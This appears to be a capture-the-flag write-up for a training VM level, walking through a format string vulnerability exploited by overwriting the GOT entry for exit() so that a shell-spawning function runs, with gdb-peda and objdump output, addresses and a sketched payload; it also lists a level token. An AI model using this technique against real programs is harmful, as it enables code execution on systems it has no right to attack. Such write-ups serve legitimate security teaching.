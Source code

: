 # Level5 - Format string vulnerability - Code redirection with GOT Overwrite

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| level5 | `0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a` |
| level6 | ``                                                                 |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

Execute level4

```shell
./level4
(stdin) abcdef
> abcdef
```

Seems to be like previous levels.

Lets debug the binary

```shell
(gdb) info functions

> (...)
  0x080484a4  o
  0x080484c2  n
  0x08048504  main
  (...)
```

```shell
gdb-peda$ pdisas main
# (...)
gdb-peda$ pdisas o
# (...)

gdb-peda$ pdisas n
```

We need to call `o`-function that creates a new shell.

n() calls exit(1) at the end of his routine. It means that we never return to main() ! So, what do we do now ? Well, we’ll use a trick called GOT Overwrite.

Basically, when the program is executed, the GOT (Global Offset Table) is initialized for every external functions (like libc functions). By doing so, the executable will cache the memory address in the GOT, so that it doesn’t have to ask libc each time an external function is called.

The goal here will be to overwrite the address of exit() in the GOT with the address of hello(). There are 4 steps here :

- Find the address of o()
- Find the address of exit() in GOT
- Find the offset of our string on the stack
- Write the proper exploit string

Let’s find the address of exit() and o()

```shell
# Get exit-syscall address
objdump -R ~/level5 | grep exit
> 08049828 R_386_JUMP_SLOT   _exit
  08049838 R_386_JUMP_SLOT   exit

# Get o-function address
objdump -t ~/level5 | grep -w o
> 080484a4 g     F .text  0000001e              o
```

It means we want to write the value `0x080484a4` at the address of exit: `0x08049838`

We need to know the buffer address.

```bash
gdb-peda$ b *p+54 # just after printf
gdb-peda$ run <<< AAAA
[------------------------------------stack-------------------------------------]
0000| 0xbffff430 --> 0xbffff440 ("AAAA\n")
0004| 0xbffff434 --> 0x200
0008| 0xbffff438 --> 0xb7fd1ac0 --> 0xfbad2088
0012| 0xbffff43c --> 0xb7ff37d0 (<__libc_memalign+16>:  add    ebx,0xb824)
0016| 0xbffff440 ("AAAA\n")
[------------------------------------------------------------------------------]
```

The buffer pointer is 4 addresses before the printf argument.

As `0x080484a4` is a big value, instead of print this value, we will split this integer with two short integers:

- High-order bytes: `0x0804`
- Low-order bytes: `0x84a4`

Basically, our format string should be something like:

```
   ______________________________________
   |                                    |
ADDRESS_1 + ADDRESS_2 + %<VALUE_1>x + %4$hn +  %<VALUE_2>x + %5$hn
                |______________________________________________|

```

---

## Sources

### Format string vulnerability

- [Memory segmentation - Cheat sheet](https://www.0x0ff.info/wp-content/uploads/2015/12/buffer-overflow-memory-segmentation-cheat-sheet.png)
- [Exploit 101 - Format Strings](https://axcheron.github.io/exploit-101-format-strings/)

### Shell

- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man system](https://linux.die.net/man/3/system)
- [Man exit](https://linux.die.net/man/3/exit)
- [Man \_exit](https://linux.die.net/man/2/_exit)
